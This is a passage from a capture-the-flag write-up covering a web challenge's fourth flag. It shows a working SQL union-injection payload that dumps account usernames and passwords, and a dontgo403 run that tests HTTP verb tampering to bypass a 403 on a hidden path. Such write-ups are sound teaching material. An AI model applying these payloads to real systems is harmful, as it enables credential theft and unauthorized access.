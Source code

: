 Get data from table

```bash
username=kiran" union select 1,2,3,(select group_concat(username|| ' : ' ||password||' | ') from accounts); --
```

```bash
["1","2","3","kiran : nothing here | ,whahtwhatwhatwat : something here | ,flagishere90 : and_Adm1t_ | ,complexname9191681 : path:/secretsforyou | "]
```

> and_Adm1t_

#### 4th Flag - Information Disclosure , authorization bypass

Got path : `/secretsforyou` from sql injection

```bash
┌──(bravosec㉿fsociety)-[/opt/sectools/web/Bypasses/dontgo403]
└─$ curl -s http://chal.pctf.competitivecyber.club:9090/secretsforyou/|h2t

4BI
-------------------------------------------------------------------------------
  3N!
You donât have permission to access /secretsforyou/ on this server.
```

Bypass authorization

```bash
┌──(bravosec㉿fsociety)-[/opt/sectools/web/Bypasses/dontgo403]
└─$ ./dontgo403 -u http://chal.pctf.competitivecyber.club:9090/secretsforyou

                                                                                       .#%%:  -#%%%*.  +#%%#+.
                                                                                      =@*#@: =@+  .%%.:+-  =@*
         :::.                             ...                                       .#@= *@: *@:   *@:  :##%@-
         :::.                             :::.             ..    -:..-.    ..   ::  =%%%%@@%:=@*. :%% =*-  :@%
 .::::::::::.   .::::::.   .:::::::::.  ::::::::.  .:::::::::.  .=::..:==-=+++:.         +#.  -*#%#+.  =*###+.
.:::....::::. .:::....:::. .::::...:::. ..::::..  ::::....:::   --::..-=+*=:.
:::.     :::. :::.    .::: .:::    .:::   :::.   ::::     .:::  -=::-*#+=:
::::    .:::. ::::    :::: .:::    .:::   :::.   .:::.    :::.  +-:::=::.
 :::::.:::::.  ::::..::::  .:::    .:::   .:::.:. .:::::::::.  .+=:::::.
  ..::::.:::    ..::::..   .:::     :::    ..:::.   .....::::.   -=:.::
                                                 .:::     ::::
                                                  :::::..::::.

Target:                 http://chal.pctf.competitivecyber.club:9090/secretsforyou
Headers:                false
Proxy:                  false
User Agent:             dontgo403
Method:                 GET
Payloads folder:        payloads
Custom bypass IP:       false
Verbose:                false

━━━━━━━━━━━━━ DEFAULT REQUEST ━━━━━━━━━━━━━
200      2087 bytes http://chal.pctf.competitivecyber.club:9090/secretsforyou

━━━━━━━━━━━━━ VERB TAMPERING ━━━━━━━━━━━━━━
200       175 bytes HEAD
200       199 bytes OPTIONS
```